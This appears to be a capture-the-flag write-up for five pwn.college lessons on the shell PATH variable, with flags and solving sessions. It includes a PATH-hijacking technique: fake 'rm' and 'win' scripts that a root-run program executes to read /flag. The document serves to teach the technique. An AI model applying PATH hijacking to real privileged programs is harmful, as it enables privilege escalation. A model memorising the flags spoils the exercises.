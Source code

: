 # 🔹 The PATH Variable

In this level, the challenge program tries to `rm /flag`. If the shell can't find `rm` because the `PATH` is empty, the removal fails and the challenge rewards you with the flag.

### 🏴 Flag

`pwn.college{EyODGUp4JJiq-4efeDk8rrCVXNs.QX2cDM1wCO0gjNzEzW}`

### ⚡ How I Solved

* I removed the directories from my shell's `PATH` so child processes couldn't locate `rm`.
* Then I executed the challenge program; its attempt to remove `/flag` failed because `rm` couldn't be found.
* The challenge noticed the failure and printed the flag.

```bash
# Clear PATH in the current shell so child processes inherit it
hacker@path~the-path-variable:~$ PATH=""
# Now the challenge can't find rm
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{EyODGUp4JJiq-4efeDk8rrCVXNs.QX2cDM1wCO0gjNzEzW}
```

### 📚 What I Learned

* The shell searches for commands using the `PATH` environment variable (a colon-separated list of directories).
* Child processes inherit the parent's environment, so clearing `PATH` in your shell prevents programs you launch from finding external commands like `rm`.
* Manipulating `PATH` can be a powerful tool — for defense (sandboxing) or exploitation — but be careful: blanking `PATH` breaks many useful commands.

---
# 🔹 Setting PATH

This level practices using the `PATH` environment variable to make programs callable by their bare names. The `win` command lives in `/challenge/more_commands/`, so placing that directory into `PATH` (or replacing `PATH` with it) lets you run `win` directly.

### 🏴 Flag

`pwn.college{I0JVrTzKTb52gm5d9FbL5YSBdFT.QX1cjM1wCO0gjNzEzW}`

### ⚡ How I Solved

* I set `PATH` so the shell would search `/challenge/more_commands/` for commands:

```bash
hacker@path~setting-path:~$ PATH=/challenge/more_commands/
```

* Then I ran the challenge; it invoked `win` by bare name and printed the flag:

```bash
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{I0JVrTzKTb52gm5d9FbL5YSBdFT.QX1cjM1wCO0gjNzEzW}
```

### 📚 What I Learned

* `PATH` is a colon-separated list of directories the shell searches for executables when you type a bare command name.
* Overwriting `PATH` with a directory that contains the desired program makes that program invokable without a full path.
* Be careful when changing `PATH`: replacing it entirely can make many standard commands unavailable; prefer prepending/appending when appropriate (e.g., `PATH=/my/bin:$PATH`).

---
# 🔹 Finding Commands

In this challenge you must locate a `win` program that was placed somewhere in your `$PATH`. The `which` command searches each directory in `$PATH` in order and prints the first matching executable it finds. Once you locate `win`, use its directory path to `cat` the adjacent flag file.

### 🏴 Flag

`pwn.college{I96x_IlsFoYRt072ychGVs2uDwD.01NzEzNxwCO0gjNzEzW}`

### ⚡ How I Solved

* I used `which win` to discover where `win` lives.
* I read the flag file in the same directory with `cat`.

```
hacker@path~finding-commands:~$ which win
/challenge/paths/26958/win
hacker@path~finding-commands:~$ cat /challenge/paths/26958/flag
pwn.college{I96x_IlsFoYRt072ychGVs2uDwD.01NzEzNxwCO0gjNzEzW}
hacker@path~finding-commands:~$
```

### 📚 What I Learned

* The shell executes the first matching executable it finds by scanning each directory listed in `$PATH` (unless the command is a shell builtin).
* Use `which <name>` to see precisely which file would run when you type a command name.
* Once you have the full path to an executable, you can inspect other files in the same directory (for example, a `flag` file) by using that path.

---
# 🔹 Adding Commands

In this challenge you must create a `win` command in a directory on your `$PATH` so that `/challenge/run` (which runs as root) calls it. Because `/challenge/run` will search `PATH` for `win`, place your script in a directory and set `PATH` so that `win` is found. Use a shell builtin (`read`) to avoid needing `/bin/cat` when you overwrite `PATH`.

### 🏴 Flag

`pwn.college{Ahk3qsStoNr5xv7Zm46b2LDxaxB.QX2cjM1wCO0gjNzEzW}`

### ⚡ How I Solved

* Created a directory for custom commands: `mkdir /tmp/mybin`.
* Wrote a small `win` script that uses the bash `read` builtin to read `/flag` and print it.
* Made the script executable with `chmod +x /tmp/mybin/win`.
* Exported `PATH` to point to the new directory so `/challenge/run` would find `win`.
* Ran `/challenge/run` which invoked `win` and printed the flag.

```
hacker@path~adding-commands:~$ mkdir /tmp/mybin
hacker@path~adding-commands:~$ cat > /tmp/mybin/win <<'EOF'
#!/bin/bash
read -r FLAG < /flag
printf '%s\n' "$FLAG"
EOF
hacker@path~adding-commands:~$ chmod +x /tmp/mybin/win
hacker@path~adding-commands:~$ export PATH=/tmp/mybin
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
pwn.college{Ahk3qsStoNr5xv7Zm46b2LDxaxB.QX2cjM1wCO0gjNzEzW}
hacker@path~adding-commands:~$
```

### 📚 What I Learned

* You can inject custom commands by creating a directory with executables and placing it in `PATH`.
* Overwriting `PATH` can hide standard utilities; use absolute paths or shell builtins (like `read`) to avoid losing functionality.
* `/challenge/run` executed `win` as root; by providing `win` we can control what it does (in this case, print the flag).

---
# 🔹 Hijacking Commands

In this challenge the program attempts to delete `/flag` using `rm`. Because the shell looks for `rm` in the directories listed in `$PATH`, you can provide your own `rm` that instead prints the flag. Place your fake `rm` in a directory and run `/challenge/run` with `PATH` set so your `rm` is found first.

### 🏴 Flag

`pwn.college{sNYTtpe75KJ1BiHrfRGHtQKyJhr.QX3cjM1wCO0gjNzEzW}`

### ⚡ How I Solved

* Created a directory for custom commands: `mkdir -p /tmp/mybin`.
* Wrote a small `rm` script that reads `/flag` using the `read` builtin and prints it.
* Made the script executable with `chmod +x /tmp/mybin/rm`.
* Ran `/challenge/run` with `PATH` set so that `/tmp/mybin` is searched first.

```
hacker@path~hijacking-commands:~$ mkdir -p /tmp/mybin
hacker@path~hijacking-commands:~$ cat > /tmp/mybin/rm <<'EOF'
#!/bin/bash
read -r FLAG < /flag
printf '%s\n' "$FLAG"
EOF
hacker@path~hijacking-commands:~$ chmod +x /tmp/mybin/rm
hacker@path~hijacking-commands:~$ PATH=/tmp/mybin /challenge/run
Trying to remove /flag...
pwn.college{sNYTtpe75KJ1BiHrfRGHtQKyJhr.QX3cjM1wCO0gjNzEzW}
hacker@path~hijacking-commands:~$
```

### 📚 What I Learned

* You can hijack system utilities by placing executables with the same name earlier in `$PATH`.
* Overwriting `PATH` can hide standard utilities; use builtins or absolute paths if needed.
* When a privileged program invokes a command by name, controlling `PATH` can let you control what that program runs.

---
